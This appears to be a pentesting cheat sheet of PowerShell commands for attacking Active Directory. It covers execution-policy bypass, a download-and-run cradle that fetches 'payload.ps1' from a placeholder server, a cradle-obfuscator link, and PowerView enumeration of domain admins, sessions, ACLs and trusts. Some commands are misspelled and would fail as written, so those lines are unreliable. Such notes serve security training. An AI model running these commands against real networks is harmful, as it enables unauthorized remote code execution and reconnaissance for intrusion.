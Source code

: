 ## BASICS:  

**Check Execution Policy**:  
1. Get-ExecutionPolicy  

**Bypass execution policy**:  
1. powershell -executionpolicy bypass .\script.ps1  
2. powershell -ep bypass  
3. powershell -c <cmd>  
4. powershell -enc  
  
**Import Modules**:  
1. . .\script.ps1  
2. Import-Module <path to script>  

**List Available modules**:  
1. Get-Module -ListAvailable  

**All commands in the module**:  
1. Get-Command -Module <module name>  
  
## COMMAND EXECUTION:  
**IEX**:  (**!= OPSEC**)
1. iex (New-Object Net.webClient).DownloadString('http://server/payload.ps1')  

**IEX Obfuscator**: https://github.com/danielbohannon/Invoke-CradleCrafter.git  
  
## DOMAIN ENUMERATION (POWERVIEW):  
**Get the current domain**:  
1. Get-NetDomain  
2. Get-NetDomain -Domain \<domain name\>  

**Get the current domain SID**:  
1. Get-DomainSID  
  
**Get domain controllers for a domain**:  
1. Get-NetDomainController  
2. Get-NetDomainController -Domain \<domain name\>  

**Get users of domain**:  
1. Get-NetUser  
2. Get-NetUser -Domain \<domain name\>  
3. Get-NetUser -UserName \<user name\>  
  
**Get the groups in the current domain**:  
1. Get-NetGroup  
2. Get-NetGroup \*admin\*  

**Get all the members of the Domain Admins group**:  
1. Get-NetGroupMember -GroupName "Domain Admins"  
  
**Get group membership for a user**:  
1. Get-NetGroup -UserName \<user name\>  

**Get computers of the domain**:  
1. Get-NetComputer  
2. Get-NetComputer -FullData  

**Fins all machines on the current domain where the current user has a local admin access**:  
1. Find-LocalAdminAccess -Verbose  
  
**Find all admins on all machines of the domain**:  
1. Invoke-EnumerateLocalAdmin -Verbose  
  
**List sessions on the current computer**:  
1. Get-NetSession -ComputerName \<computer name\>  
  
**Find computers where a omain admin is logged on and current user has access**:  
1. Invoke-UserHunt -CheckAccess  


**Get ACLs**:  
1. Get-ObjecAcl -SamAccountName \<user name\> -ResolveGUIDs  
2. Get-ObjecAcl -ADSprefix 'CN=Administrators,CN=Users'  
3. Invoke-ACLScanner -ResolveGUIDs  
  
**Get a list of all domain trusts for the current domain**:  
1. Get-NetDomainTrust  
2. Get-NetDomainTrust -Domain \<domain name\>  
  
**Get a list of all forest trusts for the current domain**:  
1. Get-NetForest  
2. Get-NetForest -Forest \<forest name\>  
  
**Get all domains in current forest**:  
1. Get-NetForestDomain  
2. Get-NetForestDomain -Forest \<forest name\>  
  
**Get forest trusts**:  
1. Get-NetForestTrust  
2. Get-NetForestTrust -Forest \<forest name\>  
  
## DOMAIN ENUMERATION (ACTIVE DIRECTORY TOOLS):  
**Get the current domain**: 
1. Get-ADDomain  
2. Get-ADDomain -Identity \<domain name\>  
  
**Get the current domain SID**:  
1. (Get-ADDomain).DomainSID.Value  
  
**Get domain controllers for a domain**:  
1. Get-ADDomainController  
2. Get-ADDomainController -Discover -DomainName \<domain name\>  
  
**Get users of domain**:  
1. Get-ADUser -Filter \* -Properties \*  
2. Get-ADUser -Server \<domain controller\>  
3. Get-ADUser -Identity \<user name\>  

**Get the groups in the current domain**:  
1. Get-ADGroup -Filter * | select Name  
2. Get-ADGroup -Filter {Name like "\*admin\*"} | select Name  
  
**Get all the members of the Domain Admins group**:  
1. Get-ADGroupMember -Identity "Domain Admins" -Recursive  

**Get group membership for a user**:  
1. Get-ADPrincipalGroupMembership -Identity \<user name\>  
  
**Get computers of the domain**:  
1. Get-ADComputer -Filter * | select Name  
2. Get-ADComputer -Filter \* -Prooerties \*  
  
**Get ACLs**:  
1. (Get-Acl 'AD:\CN=Lab,CN=Users,DC=domain,DC=local').Access  

**Get a list of all domain trusts for the current domain**:  
1. Get-ADTrust  
2. Get-ADTrust -Identiy \<domain name\>  
  
**Get a list of all forest trusts for the current domain**:  
 1. (Get-ADForest).Domains  
 2. Get-ADForest -Identiy \<forest name\>  
  
**Get forest trusts**:  
 1. Get-ADTrust -Filter 'msDS-TrustForestTrustInfo -ne "$null"'  

## POWERSHELL REMOTING  
 - To enable PSRemoting user need Admin privileges.  
 - Enabled by default on Server 2012 onwards.  
  
**Create a new PSSession**:  
1. New-PSSession
  
**Interact with particular PSSession**:  
1. Enter-PSSession
  
